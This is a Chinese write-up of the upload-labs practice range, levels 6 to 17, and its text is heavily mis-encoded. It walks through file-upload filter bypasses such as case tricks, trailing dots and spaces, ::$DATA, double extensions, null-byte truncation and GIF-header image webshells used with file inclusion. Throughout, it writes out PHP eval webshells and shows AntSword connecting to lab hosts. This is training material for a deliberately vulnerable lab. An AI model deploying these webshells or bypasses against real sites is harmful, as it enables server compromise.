<code>.user.ini</code>文件里的æ„æ€æ˜¯ï¼šæ‰€æœ‰çš„<code>php</code>文件都自动包å«<code>666.jpg</code>文件。<code>.user.ini</code>相当äºä¸€ä¸ªç”¨æˆ·è‡ªå®šä¹‰çš„<code>php.ini</code>


+ 上传<code>666.jpg</code>文件，文件内容为：




+ 使用èšå‰‘è¿æ¥

  + 等待5分钟
  + å¤åˆ¶å›¾åƒåœ°å€

  

  

  

  + å³é”®ç‚¹å‡»æ·»åŠ æ•°æ®ï¼Œç”¨èšå‰‘访问


+ é…置数æ®ï¼Œå°†<code>URL</code>地å€è®¾ä¸ºå›¾åƒåœ°å€ï¼Œä½†æ–‡ä»¶å改为<code>readme.php</code>，è¿æ¥å¯†ç è®¾ç½®ä¸º 666




+ 点击确定，å‘ç°å·²ç»æ‹¿åˆ°<code>shell</code>


+ åŒå‡»<code>shell</code>，出ç°å¯¹åº”çš„æ•°æ®ï¼ŒæˆåŠŸ


~~~ tex
ps: èšå‰‘相关的文档查看对应的url:
	https://github.com/AntSwordProject
	https://github.com/AntSwordProject/antSword
	https://github.com/AntSwordProject/AntSword-Loader
	https://github.com/eastmountyxz/AntSword-Experiment
~~~


## Pass06


+ 查看æºç ï¼Œå’Œç¬¬å››å…³å¯¹æ¯”å‘ç°è¿™å…³æ²¡æœ‰è½¬æ¢å¤§å°å†™çš„代ç ï¼Œé€†æ¨ä¸€ä¸‹ 最åè¦å¾—到<code>xxx.php</code>那么<code>$file_ext</code>å°±è¦æ˜¯php 黑åå•é‡Œé¢å°±ç¦æ­¢äº†<code>pHp</code>，没有ç¦æ­¢<code>phP</code> ã€<code>Php</code>，这样å¯ä»¥ä¸Šä¼ å¤§å°å†™æ··åˆçš„åç¼€å绕过


+ 这里版本得选择é<code>nts</code>版本的æ‰èƒ½æˆåŠŸï¼Œå¦‚æœæ˜¯<code>nts</code>版本会报<code>http 500</code>æœåŠ¡å™¨å†…部错误，ä¸çŸ¥é“什么åŸå› ã€‚在这里我上传了<code>6.Php</code>


+ 上传之åç”±äºæ˜¯<code>nts</code>版本的<code>php</code>版本，所以报了<code>http 500</code>æœåŠ¡å™¨å†…部错误




+ æ¢ä¸€ç§æ–¹æ³•ï¼Œç”¨èšå‰‘è¿æ¥

  + 先定义脚本<code>SixSecondMethod</code>

  ~~~ shell
  <?php @eval($_POST['SixSecond']); ?>
  ~~~

  


+ + 上传<code>SixSecondMethod</code>文件


+ + å¤åˆ¶å¯¹åº”çš„<code>SixSecondMethod</code>文件地å€

  ~~~ shell
  http://192.168.31.126:8080/upload-labs/upload/202401310207471991.Php
  ~~~

  


+ + 使用èšå‰‘添加数æ®å¹¶é…置相关信æ¯

  


+ + 最åå‘ç°é…ç½®æˆåŠŸï¼Œä½†ç”±äº<code>php</code>版本是<code>nts</code>导致了æœåŠ¡å™¨å‡ºç°<code>500</code>错误无法æˆåŠŸæ‹¿åˆ°<code>shell</code>

  


## Pass07

### 方法一

+ 首先查看æºç ï¼Œå¯¹æ¯”上一关å‘ç°å°‘了收尾å»ç©º


+ æ€è·¯æ˜¯åœ¨æ–‡ä»¶åé¢åŠ ç©ºæ ¼ï¼Œä½†ç”±äº<code>windows</code>特性，文件åå空格会直æ¥åˆ é™¤ï¼Œä¸èƒ½ç›´æ¥ä¸Šä¼ <code>.php</code>å加空格，所以è¦ç”¨<code>burp</code>抓包åå†åŠ ç©ºæ ¼å¦‚下图


+ 如下所示，绕过æˆåŠŸ





### 方法二

+ 首先编写脚本<code>SevenSecondMethod.php</code>

~~~ shell
<?php @eval($_POST['SevenSecond']); ?>
~~~




+ 上传相应的åå°è„šæœ¬<code>SevenSecondMethod.php</code>


+ 用<code>burpsuite</code>拦截然å修改<code>SevenSecondMethod.php</code>为<code>SevenSecondMethod.php </code>å³åœ¨æ–‡ä»¶åé¢åŠ ä¸€ä¸ªç©ºæ ¼ï¼Œç„¶åå‘ç°ä¸Šä¼ æˆåŠŸ


+ å³é”®æ‰“开图片网å€æ‰¾åˆ°ä¸Šä¼ æ–‡ä»¶<code>SevenSecondMethod.php</code>的网å€





+ 在èšå‰‘添加数æ®ï¼Œå¹¶é…置相应的å‚数，<code>URL地å€</code>填写上传文件的网å€ï¼Œ<code>è¿æ¥å¯†ç </code>æ ¹æ®è„šæœ¬<code>SevenSecondMethod.php</code>里的数æ®å¡«å†™


+ é…ç½®æˆåŠŸåå‘ç°å¯è¿æ¥æˆåŠŸ


+ åŒå‡»å·²ç»æ·»åŠ çš„æ•°æ®ï¼Œå‘ç°<code>getshell</code>æˆåŠŸ




## Pass08

### 方法一

+ 首次查看æ示


+ 查看æºä»£ç ï¼Œå‘ç°ç¼ºå°‘了<code>deldot</code>函数（用äºåˆ é™¤æ–‡ä»¶å最å一个点，如æœæœ‰å¤šä¸ªè¿ç»­çš„.... 会全部删除）。但是ä¾æ®<code>Windows</code>系统ä¿å­˜æ–‡ä»¶çš„特性åŒæ ·ä¼šåˆ é™¤æ–‡ä»¶åç¼€åçš„<code>xxx.php.</code>最å的点<code>.</code> 则最å上传的文件还是<code>xxx.php</code>


+ 编写相应的脚本文件<code>EightFirstMethod.php</code>

~~~ shell
<?php phpinfo(); ?>
~~~


+ 上传相应的脚本文件<code>EightFirstMethod.php</code>


+ 上传å用<code>burpsuite</code>拦截并将<code>EightFirstMethod.php</code>çš„åç¼€å添加点å·<code>.</code>å˜ä¸º<code>EightFirstMethod.php.</code>




+ 上传åå³é”®æ‰“开相应的文件


+ 最åå‘ç°è„šæœ¬æˆåŠŸæ‰§è¡Œ


### 方法二

+ 首先编写相应的脚本文件<code>EightSecondMethod.php</code>

~~~ shell
<?php @eval($_POST['EightSecond']); ?>
~~~


+ 上传相应的脚本文件<code>EightSecondMethod.php</code>


+ 上传å用<code>burpsuite</code>拦截并将<code>EightSecondMethod.php</code>çš„åç¼€å添加点å·<code>.</code>å˜ä¸º<code>EightSecondMethod.php.</code>


+ 上传åå³é”®æ‰“开相应的文件




+ 打开相应的文件åå¤åˆ¶å¯¹åº”的文件网å€




+ 用èšå‰‘添加数æ®å¹¶é…置相应的å‚数，<code>URL地å€</code>填写上传文件的网å€ï¼Œ<code>è¿æ¥å¯†ç </code>æ ¹æ®è„šæœ¬<code>EightSecondMethod.php</code>里的数æ®å¡«å†™


+ é…ç½®å测试å‘ç°è¿æ¥æˆåŠŸ




+ åŒå‡»å·²ç»æ·»åŠ çš„æ•°æ®ï¼Œå‘ç°æˆåŠŸ<code>getshell</code>


## Pass09

### 方法一

+ 首先看题目æ示


+ 看æºç ï¼Œçœ‹åˆ°è¿™ä¸€å…³é»‘åå•æ²¡æœ‰å¯¹<code>::$DATA </code>è¿› è¡Œ 处 ç† ä½¿ç”¨<code>::$DATA</code> 进行处ç†ï¼Œå¯ä»¥ä½¿ç”¨<code>::$DATA</code>绕过黑åå•

> 补充知识：<code>php</code>在<code>window</code>的时候如æœæ–‡ä»¶å+<code>"::$DATA"</code>会把<code>::$DATA</code>之åçš„æ•°æ®å½“æˆæ–‡ä»¶æµå¤„ç†,ä¸ä¼šæ£€æµ‹åç¼€å，且ä¿æŒ<code>"::$DATA"</code>之å‰çš„文件å 




+ 编辑脚本<code>NinethFirstMethod.php</code>

~~~ shell
<?php phpinfo(); ?>
~~~


+ 上传之å‰ç¼–辑的脚本<code>NinethFirstMethod.php</code>


+ 用<code>burpsuite</code>拦截并修改上传文件<code>NinethFirstMethod.php</code>çš„å缀为<code>NinethFirstMethod.php::$DATA</code>





+ å¯ä»¥çœ‹åˆ°æ–‡ä»¶<code>NinethFirstMethod.php</code>上传æˆåŠŸ


+ å³é”®æ‰“开文件




+ å¯ä»¥çœ‹åˆ°è„šæœ¬ä¸Šä¼ æˆåŠŸä½†æ²¡åŠæ³•æˆåŠŸæ‰§è¡Œ


### 方法二

+ 编辑脚本<code>NinethSecondMethod.php</code>

~~~ shell
<?php @eval($_POST['NineSecond']); ?>
~~~


+ 上传文件<code>NinethSecondMethod.php</code>




+ 用<code>burpsuite</code>拦截并修改上传文件<code>NinethSecondMethod.php</code>çš„å缀为<code>NinethSecondMethod.php::$DATA</code>




+ å¯ä»¥çœ‹åˆ°æ–‡ä»¶<code>NinethSecondMethod.php</code>上传æˆåŠŸ




+ å³é”®æ‰“开文件<code>NinethSecondMethod.php</code>




+ å¤åˆ¶æ‰“开文件<code>NinethSecondMethod.php</code>的网å€

~~~ shell
http://192.168.0.102:8080/upload-labs/upload/202402050507382067.php::$data
~~~


+ 打开èšå‰‘，é…置相应的数æ®ï¼›<code>URL地å€</code>填写上传文件的网å€ï¼Œ<code>è¿æ¥å¯†ç </code>æ ¹æ®è„šæœ¬<code>NineSecondMethod.php</code>里的数æ®å¡«å†™


+ å¯çœ‹åˆ°ï¼Œæ·»åŠ æ•°æ®æˆåŠŸ




+ åŒå‡»æ‰“开数æ®ï¼Œ<code>getshell</code>æˆåŠŸ


## Pass10

### 方法一

+ 首先查看æ示


+ 查看æºä»£ç 



这一关黑åå•ï¼Œæœ€å上传路径直æ¥ä½¿ç”¨æ–‡ä»¶å进行拼æ¥ï¼Œè€Œä¸”åªå¯¹æ–‡ä»¶å进行
<code>filename=deldot(file_name)</code>æ“作å»é™¤æ–‡ä»¶å末尾的点，æ„造å缀绕过黑åå•

<code>deldot()</code>函数ä»åå‘å‰æ£€æµ‹ï¼Œå½“检测到末尾的第一个点时会继续它的检测，但是é‡åˆ°ç©ºæ ¼ä¼šåœä¸‹æ¥


+ 编写脚本<code>TenFirstMethod.php</code>

~~~ shell
<?php phpinfo(); ?>
~~~




+ 上传脚本<code>TenFirstMethod.php</code>


+ 用<code>burpsuite</code>拦截并修改文件å<code>TenFirstMethod.php</code>为<code>TenFirstMethod.php. .</code>




+ å¯ä»¥çœ‹åˆ°å·²ç»æˆåŠŸç»•è¿‡ï¼Œæ–‡ä»¶<code>TenFirstMethod.php</code>æˆåŠŸä¸Šä¼ 


+ å³é”®æ‰“开文件<code>TenFirstMethod.php</code>


+ å¯ä»¥çœ‹åˆ°æ–‡ä»¶<code>TenFirstMethod.php</code>æˆåŠŸæ‰§è¡Œä»£ç 


### 方法二

+ 编辑脚本<code>TenSecondMethod.php</code>

~~~ shell
<?php @eval($_POST['TenSecond']); ?>
~~~




+ 上传文件<code>TenSecondMethod.php</code>




+ 用<code>burpsuite</code>拦截并将文件å<code>TenSecondMethod.php</code>改为<code>TenSecondMethod.php. .</code>


+ å³é”®æ‰“开上传的文件<code>TenSecondMethod.php</code>




+ å¤åˆ¶å·²ç»æ‰“开的文件<code>TenSecondMethod.php</code>的网å€


+ 用èšå‰‘添加数æ®å¹¶é…ç½®


+ 添加数æ®æˆåŠŸ




+ åŒå‡»æ·»åŠ çš„æ•°æ®ï¼Œ<code>getshell</code>æˆåŠŸ




## Pass11

### 方法一

+ 首先查看æ示




+ 查看æºç 



这一关黑åå•ç”¨<code>str_ireplace()</code>函数寻找文件å中存在的黑åå•å­—符串将它替æ¢æˆç©ºï¼Œå¯ç”¨åŒå†™ç»•è¿‡é»‘åå•


+ 编写脚本<code>ElevenFirstMethod.php</code>


+ 上传脚本文件<code>ElevenFirstMethod.php</code>




+ 使用<code>burpsuite</code>拦截并将脚本文件<code>ElevenFirstMethod.php</code>çš„åç¼€<code>.php</code>改为<code>.pphphp</code>





+ 最终æˆåŠŸä¸Šä¼ è„šæœ¬æ–‡ä»¶<code>ElevenFirstMethod.php</code>并å³é”®æ‰“开脚本文件<code>ElevenFirstMethod.php</code>




+ æˆåŠŸæ‰§è¡Œè„šæœ¬æ–‡ä»¶<code>ElevenFirstMethod.php</code>


### 方法二

+ 查看æ示


+ 查看æºä»£ç 


+ 编辑脚本文件<code>ElevenSecondMethod.php</code>




+ 上传脚本文件<code>ElevenSecondMethod.php</code>




+ åŒæ ·ç”¨<code>burpsuite</code>拦截并将脚本文件<code>ElevenSecondMethod.php</code>çš„åç¼€<code>.php</code>改为<code>.pphphp</code>





+  æˆåŠŸä¸Šä¼ æ–‡ä»¶<code>ElevenSecondMethod.php</code>并å³é”®æ‰“å¼€




+ æˆåŠŸæ‰“开上传的脚本文件<code>ElevenSecondMethod.php</code>åŒæ—¶å¤åˆ¶è„šæœ¬æ–‡ä»¶çš„网å€

~~~ shell
 http://192.168.12.55:8080/upload-labs/upload/ElevenSecondMethod.php
~~~




+ 用èšå‰‘添加数æ®å¹¶é…置；<code>URL地å€</code>填写上传文件的网å€ï¼Œ<code>è¿æ¥å¯†ç </code>æ ¹æ®è„šæœ¬<code>ElevenSecondMethod.php</code>里的数æ®å¡«å†™


+ 最终æˆåŠŸ<code>getshell</code>，添加数æ®æˆåŠŸ


+ åŒå‡»æ·»åŠ åˆ°çš„æ•°æ®ï¼ŒæˆåŠŸè¿æ¥




## Pass12

### 方法一

+ 首先查看æ示


+ 查看æºä»£ç ï¼Œå…³é”®ä»£ç æ˜¯è¿™å¥


~~~ shell
url中的%00（åªè¦æ˜¯è¿™ç§%xx）的形å¼ï¼Œwebserver会把它当作å六进制处ç†ï¼Œç„¶å把16进制的hex自动翻译æˆasciiç å€¼â€œNULLâ€,å®ç°äº†æˆªæ–­burpsuite中16进制编辑器将空格20改æˆäº†00;
本质上æ¥è¯´ï¼Œéƒ½æ˜¯åˆ©ç”¨0x00是字符串的结æŸæ ‡è¯†ç¬¦ï¼Œè¿›è¡Œæˆªæ–­å¤„ç†;
åªä¸è¿‡GETä¼ å‚需è¦urlç¼–ç æˆ%00而已;
åŸç†ï¼šphp的一些函数的底层是C语言，而move_uploaded_file就是其中之一，é‡åˆ°0x00会截断，0x表示16进制，URL中%00解ç æˆ16进制就是0x00。
~~~

~~~ tex
%00截断
%00的使用是在路径上ï¼
%00的使用是在路径上ï¼
%00的使用是在路径上ï¼
é‡è¦çš„è¯è¯´ä¸‰é。如æœåœ¨æ–‡ä»¶å上使用，就无法正常截断了。如：aaa.php%00bbb.jpg
~~~

~~~ tex
00截断的é™åˆ¶æ¡ä»¶æ˜¯PHP<5.3.29，且GPC关闭
因为当 magic_quotes_gpc 打开时，所有的 ' (å•å¼•å·), " (åŒå¼•å·), \ (å斜线) and 空字符会自动转为å«æœ‰å斜线的转义字符。
magic_quotes_gpc ç€é‡åå‘æ•°æ®åº“æ–¹é¢ï¼Œæ˜¯ä¸ºäº†é˜²æ­¢sql注入，但magic_quotes_gpcå¼€å¯è¿˜ä¼šå¯¹$_REQUEST, $_GET,$_POST,$_COOKIE 输入的内容进行过滤
~~~


<code>save_path</code>是一个å¯æ§çš„å˜é‡ï¼Œåé¢è¿˜æœ‰ä¸€ä¸ªåç¼€å需è¦ç»•è¿‡ï¼Œè¿™ä¸ªæ—¶å€™éœ€è¦ä½¿ç”¨<code>%00</code>截断，ä¸è¿‡è¿™ä¸ªä¸œè¥¿å·²ç»æ˜¯æ—§æ—¶ä»£çš„产物的，所以有使用æ¡ä»¶

~~~ shell
php版本å°äº5.3.4
phpçš„magic_quotes_gpc为OFF状æ€
~~~


+ 编辑脚本文件<code>TwelveFirstMethod.php</code>


+ 满足æ¡ä»¶å上传脚本文件<code>TwelveFirstMethod.php</code>然å上传，用<code>burpsuite</code>拦截




+ 将请求的这两个地方修改


+ ç”±äºæ¡ä»¶ä¸æ»¡è¶³è¦æ±‚，主è¦æ˜¯<code>php<code>版本ä¸æ»¡è¶³è¦æ±‚，所以最终得ä¸åˆ°æƒ³è¦çš„结æœ


+ 这个案例没有太大的å‚考价值，直æ¥è·³è¿‡ã€‚。。


## Pass13

### 方法一

+ 首先查看æ示




+ 查看代ç 




+ 编写脚本<code>ThirteenFirstMethod.php</code>

~~~ shell
<?php phpinfo(); ?>
~~~


+ 上传脚本<code>ThirteenFirstMethod.php</code>




+ 用<code>burpsuite</code>拦截上传脚本<code>ThirteenFirstMethod.php</code>




+ 修改<code>URL</code>网å€å’Œæ–‡ä»¶å如下


+ 选中<code>%00</code>，并å³é”®é€‰ä¸­è½¬æ¢ï¼Œè¿›è¡Œç½‘å€è½¬æ¢<code>decode</code>


+ 显示上传失败，应该是版本æ¡ä»¶ä¸æ»¡è¶³

~~~ shell
需è¦æ»¡è¶³ä»¥ä¸‹æ¡ä»¶:
	php版本å°äº5.3.4
	phpçš„magic_quotes_gpc为OFF状æ€	
~~~


+ 挑战失败


## Pass14

### 方法一

+ 查看æ示


+ 查看æºä»£ç ï¼Œç”±æ­¤å¯åˆ¤æ–­è¿™å…³ä¼šè¯»å–判断上传文件的å‰ä¸¤ä¸ªå­—节，判断上传文件类å‹ï¼Œå¹¶ä¸”å端会根æ®åˆ¤æ–­å¾—到的文件类å‹é‡å‘½å上传文件，使用 `图片马 + 文件包å«` 绕过

~~~ shell
补充知识：
1.Png图片文件包括8字节：89 50 4E 47 0D 0A 1A 0A。å³ä¸º .PNG。
2.Jpg图片文件包括2字节：FF D8。
3.Gif图片文件包括6字节：47 49 46 38 39|37 61 。å³ä¸º GIF 89(7)a。
4.Bmp图片文件包括2字节：42 4D。å³ä¸º BM。
~~~


+ 编写脚本文件<code>FourteenFirstMethod.php</code>，在一å¥è¯æœ¨é©¬å‰åŠ ä¸Šä¸‹é¢è¿™å¥ä»£ç 

~~~ shell
GIF 89A
~~~


+ 上传脚本文件<code>FourteenFirstMethod.php</code>，由äºä¸Šä¸€æ­¥ä»£ç çš„添加脚本文件<code>FourteenFirstMethod.php</code>会被解æ为<code>gif</code>文件


+ å³é”®æ‰“开上传的脚本文件<code>FourteenFirstMethod.php</code>，然åå¤åˆ¶æ‰“开文件对应的网å€


+ è¦åˆ©ç”¨æ–‡ä»¶åŒ…å«æ¼æ´å†™ä¸€ä¸ª<code>include.php</code>ä¼ å…¥å†è§£æ图片æ‰èƒ½æ‰§è¡Œæœ¨é©¬ï¼Œåœ¨è¿™é‡Œæ‰“开文件包å«æ¼æ´é“¾æ¥


+ é‡æ–°æ„造<code>URL</code>，在文件包å«æ¼æ´çš„网å€å加上传图片马的网å€

~~~ shell
http://192.168.104.55:8080/upload-labs/include.php(文件æ¼æ´)?file=upload/2620240211021030.gif(图片马)
~~~


+ 最åå›è½¦ï¼Œä»£ç æˆåŠŸæ‰§è¡Œ


### 方法二

+ 编写脚本文件<code>FourteenSecondMethod.php</code>，在一å¥è¯æœ¨é©¬å‰åŠ ä¸Š<code>GIF 89A</code>

~~~ shell
GIF 89A
<?php @eval($_POST['FourteenSecond']); ?>
~~~


+ 上传脚本文件<code>FourteenSecondMethod.php</code>


+ ç”±äºç¬¬ä¸€æ­¥åŠ ä¸Šçš„代ç <code>GIF 89A</code>，上传的文件<code>FourteenSecondMethod.php</code>会被解æ为<code>GIF</code>文件


+ å³é”®æ‰“å¼€<code>GIF</code>文件


+ å¤åˆ¶æ‰“å¼€<code>GIF</code>文件网å€


+ 利用文件包å«æ¼æ´


+ é‡æ–°æ„造<code>URL</code>，文件包å«æ¼æ´ç½‘å€å加上图片马的文件ä½ç½®

~~~ shell
URL=http://192.168.104.55:8080/upload-labs/include.php(文件包å«æ¼æ´)?file=upload/2620240211021030.gif(图片马ä½ç½®)
~~~


+ å›è½¦ï¼Œæ–‡ä»¶æˆåŠŸæ‰§è¡Œ


+ 打开èšå‰‘，添加é…置数æ®å¦‚下，URL地å€ä¸ºæ–‡ä»¶åŒ…å«æ¼æ´ç½‘å€å加图片马的文件ä½ç½®ï¼Œè¿æ¥å¯†ç æ ¹æ®å›¾ç‰‡é©¬è€Œè®¾ç½®


+ é…置数æ®åè¿æ¥æˆåŠŸï¼ŒæˆåŠŸ<code>getshell</code>


## Pass15

### 方法一

+ 查看æ示


+ 查看æºä»£ç 

~~~ shell
getimagesize()函数：
- 对目标的å六进制的å‰å‡ ä¸ªå­—符串读å–。比如GIF的文件头问GIF89a，png的文件头为塒NG，然åè¿”å›ä¸€ä¸ªå…·æœ‰å››ä¸ªå•å…ƒçš„数组;
- 索引0包å«å›¾åƒå®½åº¦çš„åƒç´ å€¼;
- 索引1包å«å›¾åƒé«˜åº¦çš„åƒç´ å€¼;
- 索引2是图åƒç±»å‹çš„标记：1 = GIF，2 = JPG，3 = PNG，4 = SWF，5 = PSD，6 = BMP，7 = TIFF(intel byte order)，8 = TIFF(motorola byte order)，9 = JPC，10 = JP2，11 = JPX，12 = JB2，13 = SWC，14 = IFF，15 = WBMP，16 = XBMã€‚è¿™äº›æ ‡è®°ä¸ PHP 4.3.0 新加的 IMAGETYPE 常é‡å¯¹åº”;
- 索引3是文本字符串，内容为"height="yyy" width="xxx""，å¯ç›´æ¥ç”¨äº IMG 标记;
~~~


+ 编写脚本<code>FifthteenFirstMethod.php</code>

~~~ shell
记事本打开代ç æ–‡ä»¶ï¼Œåœ¨æ–‡ä»¶å¤´æ·»åŠ GIF 89A则文件会被解æ为GIF图åƒ
~~~


+ 上传脚本<code>FifthteenFirstMethod.php</code>


+ 点击上传å上传æˆåŠŸ


+ å³é”®åœ¨æ–°çš„标签页打开图åƒ


+ æˆåŠŸåœ¨æ–°çš„标签页打开<code>GIF</code>图åƒï¼Œå¤åˆ¶å¯¹åº”çš„<code>GIF</code>图åƒç½‘å€


+ 在这里打开文件包å«æ¼æ´åœ°å€


+ 文件包å«æ¼æ´çš„网å€


+ 在åé¢åŠ ä¸Š<code>?file=文件地å€</code>


+ 点确定，命令æˆåŠŸæ‰§è¡Œ


###  方法二

+ 编写脚本<code>FifthteenSecondMethod.php</code>


+ 点击上传文件，上传æˆåŠŸ


+ å³é”®åœ¨æ–°çš„标签页打开图åƒ


+ æˆåŠŸåœ¨æ–°çš„标签页打开<code>GIF</code>图åƒæ–‡ä»¶ï¼Œå¤åˆ¶å›¾åƒçš„地å€


+ 打开文件包å«æ¼æ´


+ 在新的标签页æˆåŠŸæ‰“开文件包å«æ¼æ´ç½‘页


+ 在文件æ¼æ´ç½‘å€å加上<code>?file=GIF文件地å€</code>


+ 在èšå‰‘添加并é…置数æ®å¦‚下，网å€æ›¿æ¢æˆè‡ªå·±ç”µè„‘对应的<code>IP</code>


+ æˆåŠŸæ·»åŠ æ•°æ®


+ åŒå‡»æ‰“开网页链æ¥ï¼ŒæˆåŠŸ<code>getshell</code>


## Pass16

### 方法一

+ 查看æ示


+ 知识补充：<code>exif_imagetype()</code>函数

~~~ tex
知识补充： exif_imagetype()读å–一个图åƒçš„第一个字节并检查其åç¼€å;
è¿”å›å€¼ä¸getimagesize()函数返å›çš„索引2相åŒï¼Œä½†æ˜¯é€Ÿåº¦æ¯”getimagesize()快得多，åŒæ—¶è¦å¼€å¯php_exif模å—;
~~~


+ 查看æºä»£ç 


+ 编写脚本<code>SixteenFirstMethod.php</code>


+ 上传脚本<code>SixteenFirstMethod.php</code>到上传点


+ 点击上传，å‘ç°é¡µé¢è¢«è¦†ç›–如下


+ å¼€å¯<code>phpstudy</code>çš„<code>php_exif</code>模å—


+ é‡æ–°ä¸Šä¼ è„šæœ¬<code>SixteenFirstMethod.php</code>，å‘ç°ä¸Šä¼ æˆåŠŸ


+ å³é”®åœ¨æ–°çš„页é¢æ‰“开图片链æ¥


+ æˆåŠŸåœ¨æ–°çš„页é¢æ‰“开图片链æ¥ï¼ŒåŒæ—¶å¤åˆ¶å›¾ç‰‡é“¾æ¥çš„地å€


+ 打开文件包å«æ¼æ´çš„页é¢


+ æˆåŠŸæ‰“开文件包å«æ¼æ´çš„页é¢


+ 在文件包å«æ¼æ´é¡µé¢çš„网å€å加上<code>?file=图片网å€</code>，æˆåŠŸæ‰§è¡Œè„šæœ¬å‘½ä»¤


### 方法二

+ 编写脚本<code>SixteenSecondMethod.php</code>


+ 上传脚本<code>SixteenSecondMethod.php</code>到注入点


+ 点击上传，æˆåŠŸä¸Šä¼ è„šæœ¬æ–‡ä»¶<code>SixteenSecondMethod.php</code>并被解æ为<code>GIF</code>图åƒ


+ å³é”®ç‚¹å‡»ï¼Œåœ¨æ–°çš„页é¢æ‰“开图åƒ


+ æˆåŠŸåœ¨æ–°çš„页é¢æ‰“开图åƒï¼Œå¤åˆ¶å›¾åƒçš„网å€


+ 打开有文件包å«æ¼æ´çš„页é¢


+ 在文件包å«æ¼æ´é¡µé¢ç½‘å€å加上åç¼€<code>?file=图片网å€</code>，文件代ç æˆåŠŸæ‰§è¡Œ 


+ 打开èšå‰‘，添加数æ®å¹¶é…置，<code>URL</code>地å€ä¸ºæ–‡ä»¶åŒ…å«æ¼æ´çš„页é¢ç½‘å€åŠ ä¸Š<code>?file=图片网å€</code>，而è¿æ¥å¯†ç åˆ™ç”±è„šæœ¬<code>SixteenSecondMethod.php</code>决定


+ æˆåŠŸæ·»åŠ æ•°æ®


+ åŒå‡»æ·»åŠ çš„æ•°æ®ï¼ŒæˆåŠŸ<code>getshell</code>


## Pass17

+ [文件上传绕过—二次渲染æ¼æ´](https://blog.csdn.net/weixin_45588247/article/details/119177948)

+ [ 文件上传绕过—æ¡ä»¶ç«äº‰æ¼æ´](https://blog.csdn.net/weixin_45588247/article/details/118796606?spm=1001.2014.3001.5501)


+ 首先查看æ示


+ 查看æºä»£ç ï¼Œæºä»£ç å¦‚下

~~~ shell
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])){
    // è·å¾—上传文件的基本信æ¯ï¼Œæ–‡ä»¶å，类å‹ï¼Œå¤§å°ï¼Œä¸´æ—¶æ–‡ä»¶è·¯å¾„
    $filename = $_FILES['upload_file']['name'];
    $filetype = $_FILES['upload_file']['type'];
    $tmpname = $_FILES['upload_file']['tmp_name'];

    $target_path=UPLOAD_PATH.'/'.basename($filename);

    // è·å¾—上传文件的扩展å
    $fileext= substr(strrchr($filename,"."),1);

    //判断文件åç¼€ä¸ç±»å‹ï¼Œåˆæ³•æ‰è¿›è¡Œä¸Šä¼ æ“作
    if(($fileext == "jpg") && ($filetype=="image/jpeg")){
        if(move_uploaded_file($tmpname,$target_path)){
            //使用上传的图片生æˆæ–°çš„图片
            $im = imagecreatefromjpeg($target_path);

            if($im == false){
                $msg = "该文件ä¸æ˜¯jpgæ ¼å¼çš„图片ï¼";
                @unlink($target_path);
            }else{
                //给新图片指定文件å
                srand(time());
                $newfilename = strval(rand()).".jpg";
                //显示二次渲染å的图片（使用用户上传图片生æˆçš„新图片）
                $img_path = UPLOAD_PATH.'/'.$newfilename;
                imagejpeg($im,$img_path);
                @unlink($target_path);
                $is_upload = true;
            }
        } else {
            $msg = "上传出错ï¼";
        }

    }else if(($fileext == "png") && ($filetype=="image/png")){
        if(move_uploaded_file($tmpname,$target_path)){
            //使用上传的图片生æˆæ–°çš„图片
            $im = imagecreatefrompng($target_path);

            if($im == false){
                $msg = "该文件ä¸æ˜¯pngæ ¼å¼çš„图片ï¼";
                @unlink($target_path);
            }else{
                 //给新图片指定文件å
                srand(time());
                $newfilename = strval(rand()).".png";
                //显示二次渲染å的图片（使用用户上传图片生æˆçš„新图片）
                $img_path = UPLOAD_PATH.'/'.$newfilename;
                imagepng($im,$img_path);

                @unlink($target_path);
                $is_upload = true;               
            }
        } else {
            $msg = "上传出错ï¼";
        }

    }else if(($fileext == "gif") && ($filetype=="image/gif")){
        if(move_uploaded_file($tmpname,$target_path)){
            //使用上传的图片生æˆæ–°çš„图片
            $im = imagecreatefromgif($target_path);
            if($im == false){
                $msg = "该文件ä¸æ˜¯gifæ ¼å¼çš„图片ï¼";
                @unlink($target_path);
            }else{
                //给新图片指定文件å
                srand(time());
                $newfilename = strval(rand()).".gif";
                //显示二次渲染å的图片（使用用户上传图片生æˆçš„新图片）
                $img_path = UPLOAD_PATH.'/'.$newfilename;
                imagegif($im,$img_path);

                @unlink($target_path);
                $is_upload = true;
            }
        } else {
            $msg = "上传出错ï¼";
        }
    }else{
        $msg = "åªå…许上传å缀为.jpg|.png|.gif的图片文件ï¼";
    }
}

~~~


+ 补充åŸç†è¯´æ˜

~~~ tex
二次渲染åŸç†ï¼š
    在我们上传文件å，网站会对图片进行二次处ç†ï¼ˆæ ¼å¼ã€å°ºå¯¸è¦æ±‚等），æœåŠ¡å™¨ä¼šæŠŠé‡Œé¢çš„内容进行替æ¢æ›´æ–°ï¼Œå¤„ç†å®Œæˆå，根æ®æˆ‘们åŸæœ‰çš„图片生æˆä¸€ä¸ªæ–°çš„图片并放到网站对应的标签进行显示。
~~~

~~~ tex
绕过：
    é…åˆæ–‡ä»¶åŒ…å«æ¼æ´ï¼š
        将一å¥è¯æœ¨é©¬æ’入到网站二次处ç†å的图片中，也就是把一å¥è¯æ’入图片在二次渲染å会ä¿ç•™çš„那部分数æ®é‡Œï¼Œç¡®ä¿     ä¸ä¼šåœ¨äºŒæ¬¡å¤„ç†æ—¶åˆ é™¤æ‰ã€‚这样二次渲染å的图片中就存在了一å¥è¯ï¼Œåœ¨é…åˆæ–‡ä»¶åŒ…å«æ¼æ´è·å–webshell;

    å¯ä»¥é…åˆæ¡ä»¶ç«äº‰ï¼š
        这里二次渲染的逻辑存在æ¼æ´ï¼Œå…ˆå°†æ–‡ä»¶ä¸Šä¼ ï¼Œä¹‹åå†åˆ¤æ–­ï¼Œç¬¦åˆå°±ä¿å­˜ï¼Œä¸ç¬¦åˆåˆ é™¤ï¼Œå¯åˆ©ç”¨æ¡ä»¶ç«äº‰æ¥è¿›è¡Œçˆ†ç ´     上传;
~~~


+ 网上找到素æ<code>22.gif</code>，用<code>010Editor</code>软件打开该<code>gif</code>文件并显示为16进制和2进制


+ 上传<code>22.gif</code>到上传点


+ æˆåŠŸä¸Šä¼ <code>22.gif</code>到上传点


+ å³é”®ï¼Œé€‰æ‹©åœ¨æ–°çš„页é¢æ‰“开图åƒå³å¯


+ æˆåŠŸåœ¨æ–°çš„页é¢æ‰“开图åƒï¼Œå¤åˆ¶å›¾åƒçš„网å€


